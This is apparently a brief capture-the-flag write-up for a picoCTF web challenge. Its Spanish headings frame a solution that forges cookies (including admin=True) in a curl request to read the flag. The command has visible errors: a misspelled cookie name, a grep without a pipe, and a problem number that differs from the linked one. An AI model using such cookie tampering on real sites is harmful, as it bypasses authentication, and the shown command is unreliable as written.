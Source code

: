 # Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
# Pistas
1. Hmm it doesn't seem to check anyone's password, except for Joe's?
# Solución
```
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie:username=loko;passwprd=loko;admin=True" grep pico

```
![[Pasted image 20240229125402.png]]
# Notas adicionales
# Referencias